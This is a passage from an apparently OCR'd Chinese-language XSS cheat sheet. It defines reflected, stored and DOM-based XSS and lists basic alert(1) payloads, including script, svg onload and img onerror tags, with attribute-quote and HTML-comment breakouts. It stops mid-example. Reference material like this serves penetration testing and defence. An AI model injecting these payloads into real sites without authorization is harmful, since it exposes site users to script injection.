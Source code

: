 ## XSS 速查表

### 介绍

> 跨站脚本（XSS）攻击是一种注入攻击类型，恶意脚本被注入到网站中。有三种类型的XSS攻击：

*   > 反射型XSS

    > 攻击中，恶意脚本通过Web浏览器从另一个网站运行

*   > 存储型XSS

    > 存储攻击是那些恶意脚本永久存储在目标服务器上的攻击

*   > 基于DOM的XSS

    > 一种XSS类型，其中载荷在DOM中找到，而不是在HTML代码中找到。

### 发现位置

> 这种漏洞可能出现在应用程序的所有功能中。如果要查找DOM型XSS，可以通过阅读JavaScript源代码来找到它。

### 如何利用

1. 基本的Payload

```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. 在HTML标签值中添加 ' 或 " 以转义Payload

```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

* 示例源代码

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* 输入Payload后

```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```

3. 如果输入落在HTML注释中，请添加 --> 以转义Payload。

```html
--><script>alert(1)</script>
```

* 示例源代码

```html
<!-- REFLECTED_HERE --> 
```
